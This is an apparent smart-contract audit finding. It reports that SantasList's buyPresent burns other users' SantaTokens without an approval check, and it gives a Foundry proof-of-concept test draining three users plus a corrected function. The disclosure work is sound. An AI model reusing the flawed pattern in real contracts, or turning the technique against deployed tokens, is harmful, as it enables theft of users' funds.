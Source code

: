 The function `Santalist.buyPresent` allow msg.sender to mint Present by burning a certain amount of token. This function burns the token of the `presentReceiver` without checking for approvals. An attacker can burn the token of all users to buy presents for themselves.

## Impact

The balance of all SantaToken(ERC20) can be drained.

### Tests:

```javascript
function testHackBuyPresent() public {
        address naiveUserA = makeAddr("naiveUserA");
        address naiveUserB = makeAddr("naiveUserB");
        address naiveUserC = makeAddr("naiveUserC");

        address[3] memory naiveUsers = [naiveUserA, naiveUserB, naiveUserC];

        for (uint256 i = 0; i < 3; i++) {
            deal(address(santaToken), naiveUsers[i], 1e18);
            assertEq(santaToken.balanceOf(naiveUsers[i]), 1e18);

            vm.prank(user);
            santasList.buyPresent(naiveUsers[i]);

            assertEq(santaToken.balanceOf(naiveUsers[i]), 0);
        }
        assertEq(santasList.balanceOf(user), 3);
}
```

## Tools Used

Foundry

## Recommendations

Always check for approval before performing actions on user's token.
Rewrite the function to only burn the msg.sender's token and mint to `presentReciever`

```javascript
 function buyPresent(address presentReceiver) external {
        // TransferFrom checks the allowance
        i_santaToken.transferFrom(msg.sender, address(this), 1e18);
        i_santaToken.burn(address(this));

        // Mint the NFT to the receiver
        _safeMint(presentReceiver, s_tokenCounter++);
    }
```

## <a id='H-02'></a>H-02. Verified winners can mint as many presents as they want.
